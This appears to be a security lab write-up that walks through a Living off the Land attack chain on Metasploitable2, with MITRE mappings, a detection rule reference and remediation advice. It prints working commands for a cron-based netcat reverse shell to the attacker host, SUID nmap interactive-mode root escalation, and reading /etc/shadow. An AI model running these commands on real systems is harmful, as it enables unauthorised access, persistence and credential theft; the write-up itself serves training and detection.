




# T1053 / T1059.004 / T1068 — Living off the Land (LotL) Attack Chain

**Author:** Looteri 
**Date:** 2026-03-30  
**Environment:** Kali Linux + Metasploitable2  
**MITRE ATT&CK:** T1053.003, T1059.004, T1068, T1078
**Status:** Completed

---

## Objective

Demonstrate a full Living off the Land (LotL) attack chain using only
binaries and tools native to the target system — no external exploits,
no Metasploit, no uploaded payloads. Starting from authenticated SSH
access, achieve persistent reverse shell and root-level privilege
escalation using only what exists on the target.

---

## Lab Environment

| Component | Role | IP |
|---|---|---|
| Kali Linux | Attacker | 192.168.232.128 |
| Metasploitable2 | Target (Ubuntu 8.04) | 192.168.232.129 |

---

## Phase 1 — Initial Access (T1078)

Authenticated SSH access using credentials obtained from T1110.002
password cracking exercise:
```bash
ssh -oHostKeyAlgorithms=+ssh-rsa,ssh-dss msfadmin@192.168.232.129
# password: msfadmin
```

No exploit used — valid cracked credentials only.

---

## Phase 2 — Persistence via Cron (T1053.003)

Verified no existing cron jobs:
```bash
crontab -l
# No crontab for msfadmin
```

Added reverse shell scheduled task using only native binaries
(`crontab`, `nc`, `/bin/bash`):
```bash
(crontab -l 2>/dev/null; echo "* * * * * nc 192.168.232.128 4444 -e /bin/bash") | crontab -
```

> **Note:** `/dev/tcp` redirect was attempted first but failed —
> Metasploitable2's bash (3.2) does not support this feature.
> `netcat` with `-e` flag used as alternative — both are native binaries.

On Kali — listener:
```bash
nc -lvnp 4444
```

Reverse shell connected within 60 seconds:
```
connect to [192.168.232.128] from (UNKNOWN) [192.168.232.129] 41420
id → uid=1000(msfadmin)
```



---

## Phase 3 — Discovery (T1059.004)

System enumeration using only native Linux commands:
```bash
uname -a
ps aux
cat /etc/passwd | cut -d: -f1
find / -perm -4000 2>/dev/null
```

SUID binary enumeration revealed critical finding:
```
/usr/bin/nmap   ← SUID bit set, version 4.53
/usr/bin/sudo
/bin/su
```



---

## Phase 4 — Privilege Escalation via SUID Nmap (T1068)

Nmap 4.53 includes `--interactive` mode which spawns a shell
inheriting the SUID owner (root). This is a well-known LotL
privilege escalation technique requiring zero external tools:
```bash
nmap --interactive
!sh
id
```

Result:
```
uid=1000(msfadmin) gid=1000(msfadmin) euid=0(root)
```

Root-level `/etc/shadow` access confirmed without any exploit:
```bash
cat /etc/shadow
# root:$1$/avpfBJ1$... (full hash visible)
```




---

## Full LotL Kill Chain
```
T1078  SSH login (msfadmin:msfadmin)
  ↓
T1053.003  crontab + nc reverse shell (persistence)
  ↓
T1059.004  native enumeration (find, ps, cat)
  ↓
T1068  SUID nmap --interactive → euid=0
  ↓
/etc/shadow access — zero external tools used
```

---

## SIGMA Detection Rule

File: [`../../detections/sigma/T1053-T1068-lotl-attack-chain.yml`]
(../../detections/sigma/T1053-T1068-lotl-attack-chain.yml)

Detection logic: SUID binary (`nmap`) spawning a child shell process
— indicates interactive mode abuse for privilege escalation.

---

## Findings & Recommendations

- Entire attack chain executed using only binaries present on target —
  no antivirus or EDR would flag external tooling
- SUID nmap is a well-documented GTFOBins vector — remove SUID bit:
  `chmod u-s /usr/bin/nmap`
- Cron-based persistence generates no network alerts by default —
  file integrity monitoring on `/var/spool/cron/` required
- `/dev/tcp` being disabled in bash limits some reverse shell options
  but netcat with `-e` flag is equally effective
- LotL techniques are significantly harder to detect than
  signature-based attacks — behavioral detection required
